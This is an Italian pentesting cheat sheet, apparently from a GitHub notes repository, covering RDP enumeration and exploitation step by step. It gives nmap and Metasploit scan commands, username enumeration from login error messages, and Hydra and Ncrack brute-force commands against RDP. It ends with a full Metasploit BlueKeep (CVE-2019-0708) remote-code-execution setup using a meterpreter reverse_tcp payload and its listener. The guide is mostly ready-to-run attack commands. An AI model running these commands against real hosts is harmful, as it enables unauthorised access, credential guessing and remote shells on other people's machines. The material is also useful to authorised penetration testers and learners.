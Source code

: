 # RDP Enumeration & Exploitation

**RDP (Remote Desktop Protocol)** è un protocollo sviluppato da Microsoft che consente l’accesso remoto a un desktop grafico su macchine Windows. <br>
Opera sulla porta `3389/TCP` che se mal configurato o affetto da vulnerabilità note, può rappresentare un punto di accesso privilegiato per un attaccante.

---

## Fase 1 – Scansione del Servizio RDP

Per verificare la presenza del servizio RDP:
`nmap -p 3389 -sV <IP>`

Per ottenere informazioni aggiuntive tramite NTLM:
`nmap -p 3389 --script rdp-ntlm-info <IP>`

Questo script può restituire:
- Nome del dominio
- Nome macchina
- Versione del sistema operativo

Questi dati possono essere utili anche senza autenticazione.

Se sospetti che RDP sia su una porta non standard, puoi usare Metasploit:
`use auxiliary/scanner/rdp/rdp_scanner`  
`set RHOSTS <IP>`  
`set RPORT <porta_sospetta>`  
`run`  

---

## Fase 2 – Connessione Manuale e Osservazioni

Tentativi di connessione con:
- Linux: `xfreerdp /v:<IP>`
- Kali: `rdesktop <IP>`
- Windows: `mstsc.exe`

Osservazioni da fare:
- Prompt di login
- Banner informativi
- Errori che rivelano dettagli su utenti, domini, o configurazioni

Esempi di messaggi utili:
- “Utente non autorizzato” ⟶ utente esiste ma non ha accesso remoto
- “Username o password errata” ⟶ username valido
- “Nessun dominio specificato” ⟶ server non è parte di un dominio

Una volta ottenute credenziali valide:
`xfreerdp /u:<username> /p:<password> /v:<IP>:<PORT>`  
Durante la connessione potrebbe comparire un avviso sul certificato non verificato: accettare con `YES`.

---

## Fase 3 – Enumerazione Utenti tramite Timing

Alcuni strumenti tentano di identificare utenti validi in base al tempo di risposta del servizio RDP durante una connessione fallita. Tecnica simile all’enumerazione utenti su SSH.

Strumenti utili:
- `rdp-sec-check`
- `Crowbar` (per brute-force RDP)

---

## Fase 4 – Brute-force Credenziali RDP

⚠️ Attenzione: il brute-force su RDP può attivare sistemi di difesa (lockout, log, allarmi).

Con Hydra:
`hydra -t 4 -V -f -l <user> -P <wordlist> rdp://<IP>`

Con Ncrack:
`ncrack -p 3389 -u <user> -P <wordlist> <IP>`

Oppure per brute-force completo:
`hydra -L <pathUsernames> -P <pathPasswords> rdp://<IP> -s <PORT>`  

- `-L` → file con la lista utenti  
- `-P` → file con la lista password  
- `-s` → porta RDP (se diversa da 3389)  
- `-t` → numero massimo di thread (es. `-t 4` per rallentare l'attacco)


---

## Fase 5 – Verifica Vulnerabilità BlueKeep (CVE-2019-0708)

**BlueKeep** è una vulnerabilità critica che permette RCE senza autenticazione sfruttando un buffer overflow nel servizio RDP. Colpisce Windows XP, Server 2003, Windows 7 e Server 2008.

Verifica presenza della porta:
`nmap -p 3389 <IP>`

Verifica vulnerabilità:
- `nmap -p 3389 --script rdp-vuln-ms12-020 <IP>` ⟶ può indicare anomalie
- `nmap -p 3389 --script rdp-vuln-cve2019-0708 <IP>` ⟶ verifica specifica BlueKeep

Con Metasploit:
`use auxiliary/scanner/rdp/cve_2019_0708_bluekeep`  
`set RHOSTS <IP>`  
`run`

Visualizza i target supportati:
`show targets`  
`set target <numero>`

---

## Fase 6 – Exploiting di BlueKeep con Metasploit

Modulo di exploit:
`use exploit/windows/rdp/cve_2019_0708_bluekeep_rce`  
`set RHOSTS <IP>`  
`set RPORT 3389`  
`set payload windows/x64/meterpreter/reverse_tcp`  
`set LHOST <KaliIP>`  
`set LPORT <Port>`  
`run`

⚠️ Estremamente instabile: usare solo in ambienti di test.

---

## Fase 7 – Listener Metasploit

Per ricevere la reverse shell:
`use multi/handler`  
`set payload windows/x64/meterpreter/reverse_tcp`  
`set LHOST <KaliIP>`  
`set LPORT <Port>`  
`run`

---

